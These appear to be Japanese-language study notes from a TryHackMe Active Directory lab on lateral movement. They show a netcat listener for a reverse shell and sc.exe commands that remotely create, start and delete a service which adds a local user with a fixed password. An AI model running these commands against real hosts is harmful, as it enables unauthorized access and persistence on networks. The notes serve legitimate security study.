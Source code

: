 * ネットキャットで待機し、リモートにファイルコピーして改めてマクロを実行する

  ```cmd
  PS C:\Tools\practical_tools> nc.exe -lvnp 4444
  ```



#### Remotely Creating Services Using sc

- Ports:
  - 135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes) SMB over NetBIOS
- **Required Group Memberships:** Administrators

SVCCTL：Service Control Manager
EPM：Endpoint Mapper

1. port135のEPMにつなぐ、EPMがSVCCTLにアクセスするためのIPアドレスとポート番号を通知する。このポートには通常49152-65535のダイナミックポートが使われる。

   ![image-20221119100519157](img/ActiveDirectory_lateralmove/image-20221119100519157.png)

2. もしRPCでの接続が失敗したらSMBパイプで接続を試みる(port 445 / port139)

![image-20221119100646375](img/ActiveDirectory_lateralmove/image-20221119100646375.png)

`THMservice`を作って実行するコマンド

```cmd
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

"net user"コマンドがサービスがスタートすると実行され、新しいローカルユーザが作成される。
コマンド出力を確認することはできない。

サービスを止めて削除するコマンド

```cmd
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```
